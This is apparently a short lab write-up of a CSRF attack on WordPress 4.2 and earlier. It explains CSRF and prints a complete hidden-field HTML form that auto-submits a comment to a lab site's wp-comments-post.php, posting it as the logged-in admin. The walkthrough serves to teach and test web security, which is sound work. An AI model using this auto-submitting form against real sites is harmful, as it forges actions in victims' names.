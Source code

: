  Cross-Site Request Forgery (CSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they’re currently authenticated. CSRF attacks are possible when the application does not ensure that a user is in fact interacting with it.

Steps:

1)Make a comment 

2) Then inspect the code to be able to create a malicious form 

3)Create a malicious form code:

    <html>
        <head></head>
        <body>
            <form name="csrfForm" action="http://wpdistillery.vm/wp-comments-post.php" method="POST">
                <input type="hidden" name="comment" value="I made a new comment">
                <input type="hidden" name="comment_post_ID" value="1">
                <input type="hidden" name="comment_parent" value="0">
                <input type="hidden" name="_wp_unfiltered_html_comment" value="456890231">
                <input type="submit" value="Post+Comment">
            </form>
            <script>document.csrfForm.submit(); </script>
    </body>
    </html>
    
4)With that code set up a malicious website

5)The malicious website will automatically submit ad post the comment 'I made a new comment' as an admin.

Tested in version: WordPress <= 4.2

GIF Walkthrough:

![CSRF](https://user-images.githubusercontent.com/78192383/162076560-c9452ca4-848f-4010-9c10-ce8a0b0c7de4.gif)
